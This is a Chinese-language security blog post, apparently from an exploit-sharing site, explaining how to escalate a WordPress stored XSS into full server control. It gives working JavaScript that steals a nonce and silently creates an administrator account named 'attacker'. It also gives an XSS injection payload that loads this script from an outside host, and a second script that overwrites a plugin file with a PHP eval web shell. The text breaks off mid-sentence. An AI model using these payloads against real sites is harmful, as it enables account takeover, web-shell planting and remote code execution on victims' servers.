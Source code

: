 （从xss到getshell） xss的深层次利用与探讨
=========================================

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian\@lcx.cc

通过js文件添加wp系统管理员
--------------------------

### 1、创建管理账号

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin
\[.\]
js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为"
attacker"，密码为" attacker"。

    // Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
    var ajaxRequest = new XMLHttpRequest();  
    var requestURL = "/wordpress/wp-admin/user-new.php";  
    var nonceRegex = /ser" value="([^"]*?)"/g;  
    ajaxRequest.open("GET", requestURL, false);  
    ajaxRequest.send();  
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
    var nonce = nonceMatch[1];  

    // Construct a POST query, using the previously extracted 'nonce' value, and create a new user with an arbitrary username / password, as an Administrator  
    var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";  
    ajaxRequest = new XMLHttpRequest();  
    ajaxRequest.open("POST", requestURL, true);  
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  
    ajaxRequest.send(params);

然后，攻击者可以使用以下PoC插入JavaScript。

    “"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;”

### 图1.插入XSS代码以添加管理员帐户

![](./resource/(从xss到getshell)xss的深层次利用与探讨/media/rId24.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户"攻击者"。

### 图2. XSS代码被执行

![](./resource/(从xss到getshell)xss的深层次利用与探讨/media/rId26.png)

### 图3. XSS代码创建的具有管理员权限的"攻击者"帐户

![](./resource/(从xss到getshell)xss的深层次利用与探讨/media/rId28.png)

然后，攻击者可以将现有的php文件修改为Webshel​​l，并使用该Webshel​​l来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

![](./resource/(从xss到getshell)xss的深层次利用与探讨/media/rId29.png)

图5.控制Web服务器

![](./resource/(从xss到getshell)xss的深层次利用与探讨/media/rId30.png)

### 2、恶意命令执行

    // Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
    var ajaxRequest = new XMLHttpRequest();
    var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
    var nonceRegex = /ce" value="([^"]*?)"/g;
    ajaxRequest.open("GET", requestURL, false);
    ajaxRequest.send();
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
    var nonce = nonceMatch[1];

    // Construct a POST query, using the previously extracted 'nonce' value, and update the content of the file 'akismet/index.php' with our tiny web shell
    var params = "_wpnonce="+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST['x']));&action=update&file=akismet/index.php"
    ajaxRequest = new XMLHttpRequest();
    ajaxRequest.open("POST", requestURL, true);
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    ajaxRequest.send(params);

一旦此XSS被管理用户触发，我们应该能够通过向脚本

<http://0-sec.org/wp-content/plugins/akismet/index.php>

发送GET / POST请求来执行任意PHP代码，其中参数" x"等于我们的PHP代码的"
base6
